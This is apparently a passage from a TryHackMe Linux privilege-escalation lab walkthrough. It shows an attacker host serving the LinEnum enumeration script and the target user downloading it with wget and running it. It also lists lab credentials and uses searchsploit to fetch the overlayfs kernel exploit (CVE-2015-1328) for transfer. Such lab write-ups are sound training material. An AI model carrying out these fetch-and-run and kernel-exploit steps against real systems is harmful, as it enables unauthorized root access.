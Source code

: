 **LinEnum:** [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)

```
> Kali


┌──(kali㉿kali)-[~/tryhackme/linprivesc]
└─$ wget  https://raw.githubusercontent.com/rebootuser/LinEnum/refs/heads/master/LinEnum.sh

                                                                                             
┌──(kali㉿kali)-[~/tryhackme/linprivesc]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.77.167 - - [16/Oct/2024 22:48:26] "GET /LinEnum.sh HTTP/1.1" 200 -


> Victima

karen@wade7363:/tmp$ wget http://10.6.13.236/LinEnum.sh
--2024-10-16 23:48:26--  http://10.6.13.236/LinEnum.sh
Connecting to 10.6.13.236:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 367798 (359K) [text/x-sh]
Saving to: ‘LinEnum.sh’

100%[======================================>] 367,798      503KB/s   in 0.7s   

2024-10-16 23:48:27 (503 KB/s) - ‘LinEnum.sh’ saved [367798/367798]

karen@wade7363:/tmp$ chmod +x LinEnum.sh 
karen@wade7363:/tmp$ ./LinEnum.sh 


```


## Task 5 - Privilege Escalation: Kernel Exploits

Note: Launch the target machine attached to this task to follow along.
You can launch the target machine and access it directly from your browser.
Alternatively, you can access it over SSH with the low-privilege user credentials below:
Username: karen
Password: Password1

### find and use the appropriate kernel exploit to gain root privileges on the target system.

```
searchsploit Linux Kernel 3.13.0

searchsploit -m 37292.c

  Exploit: Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/37292
     Path: /usr/share/exploitdb/exploits/linux/local/37292.c
    Codes: CVE-2015-1328
 Verified: True
File Type: C source, ASCII text, with very long lines (466)
Copied to: /home/kali/tryhackme/linprivesc/37292.c

> kali

python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```